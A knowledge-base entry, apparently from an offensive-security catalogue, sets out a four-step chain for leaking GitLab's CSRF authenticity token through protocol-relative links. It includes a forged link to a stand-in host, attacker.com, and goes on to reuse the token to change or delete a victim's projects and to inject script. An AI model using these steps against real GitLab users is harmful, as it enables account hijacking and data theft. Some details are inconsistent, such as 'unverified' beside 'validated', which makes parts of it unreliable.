

---
tags:
  - csrf
  - token-leak
  - javascript
  - gitlab
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
commands: []
verified: false
platforms:
  - Web
  - GitLab
submitted: true
created_at: '2024-10-01T00:00:00Z'
procedures:
  - '[[procedures/Analyze-JavaScript-for-URL-Manipulation-Vulnerabilities]]'
  - '[[procedures/Craft-Malicious-Link-with-Double-Slashes-for-Domain-Forgery]]'
  - '[[procedures/Trigger-AJAX-Request-to-Leak-Authenticity-Token]]'
  - '[[procedures/Exploit-Leaked-CSRF-Token-for-State-Changing-Attacks]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:27:29.150Z'
description: >-
  A multi-stage attack exploiting GitLab's JavaScript URL construction to leak
  the Rails authenticity token via manipulated relative URLs, enabling CSRF
  attacks and potential JavaScript injection.
id: 578086ba-c53b-4755-8e4d-0519fe73b64b
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
---

# CSRF Token Leak via Forged Relative URLs in GitLab

Multi-stage attack chain demonstrating a complete attack workflow exploiting GitLab's reliance on `location.pathname` for URL construction, allowing token leakage through forged links.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Browser developer tools for code inspection
- A web server to host the malicious link (e.g., attacker-controlled domain)

### Target Environment

- GitLab instance (web platform)
- Ruby on Rails backend with CSRF protections
- JavaScript environment using Vue.js and jQuery

### Initial Access Requirements

- Victim must be authenticated in GitLab and visit the malicious link
- Attacker needs a domain to host forged content
- No prior credentials needed beyond social engineering for link click

## Detailed Attack Procedures

### Step 1: Analyze JavaScript for URL Manipulation Vulnerabilities
procedure: [[procedures/Analyze-JavaScript-for-URL-Manipulation-Vulnerabilities]]

**Objective**: Identify vulnerabilities in GitLab's JavaScript code where `location.pathname` is used to construct relative URLs for AJAX requests.

**Instructions**: Inspect the source code of GitLab's JavaScript files, such as `environments_folder_view.js` (lines 21 and 86), to find instances where URLs are built using `location.pathname` without proper validation. Note how these are used in AJAX calls via `Vue.http` or `$.ajax`, including the inclusion of the Rails authenticity_token.

**Expected Output**: Documentation of vulnerable code snippets showing URL construction logic.

**Success Indicators**:
- Identified reliance on `location.pathname` for relative URLs
- Confirmed inclusion of CSRF token in requests

### Step 2: Craft Malicious Link with Double Slashes for Domain Forgery
procedure: [[procedures/Craft-Malicious-Link-with-Double-Slashes-for-Domain-Forgery]]

**Objective**: Create a forged link that manipulates URL resolution to redirect requests to an attacker-controlled domain.

**Instructions**: Design a link starting with '//' followed by the namespace/repo path, e.g., `<a href="//attacker.com/namespace/repo/">Click here</a>`. This exploits browser URL resolution to form an absolute URL like `https://attacker.com/repo/`, tricking the GitLab JS into sending requests to the attacker's domain while mimicking relative paths.

**Expected Output**: A malicious HTML page or link that, when visited on the GitLab domain, resolves to the attacker's server.

**Success Indicators**:
- Link resolves to external domain when parsed in victim's browser
- GitLab JS interprets it as a relative path internally

### Step 3: Trigger AJAX Request to Leak Authenticity Token
procedure: [[procedures/Trigger-AJAX-Request-to-Leak-Authenticity-Token]]

**Objective**: Induce the victim's browser to send an AJAX request to the attacker-controlled domain, leaking the CSRF token.

**Instructions**: Host the forged link on the attacker's domain and lure the victim (authenticated in GitLab) to click it while on a GitLab page. The JS in files like `environments_folder_view.js` will construct the request URL using the manipulated pathname, sending it via `Vue.http` or `$.ajax` to `https://attacker.com/...`, including the Rails authenticity_token in headers or body.

**Expected Output**: Server logs on attacker's domain showing the incoming request with the leaked token.

**Success Indicators**:
- Request received on attacker server with authenticity_token
- Token matches one from a valid GitLab session

### Step 4: Exploit Leaked CSRF Token for State-Changing Attacks
procedure: [[procedures/Exploit-Leaked-CSRF-Token-for-State-Changing-Attacks]]

**Objective**: Use the leaked token to perform unauthorized state-changing actions on the victim's GitLab account and potentially inject JavaScript.

**Instructions**: With the token, craft CSRF requests to GitLab endpoints requiring the authenticity_token, such as updating project settings or deleting repositories. Additionally, if responses are processed as trusted (e.g., in `environment_terminal_button.js` line 33), inject malicious JS payloads in responses to execute arbitrary code in the victim's browser.

**Expected Output**: Successful state changes in the victim's GitLab account, such as modified environments or executed JS.

**Success Indicators**:
- Unauthorized actions performed using the token
- JS injection leading to alert() or data exfiltration

## Attack Chain Summary

### Key Achievements

1. Leaked Rails authenticity_token remotely without direct access
2. Bypassed same-origin policy via URL forgery
3. Enabled full CSRF attacks on GitLab instances
4. Potential for JavaScript injection via trusted response processing

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2024-10-01T00:00:00Z*
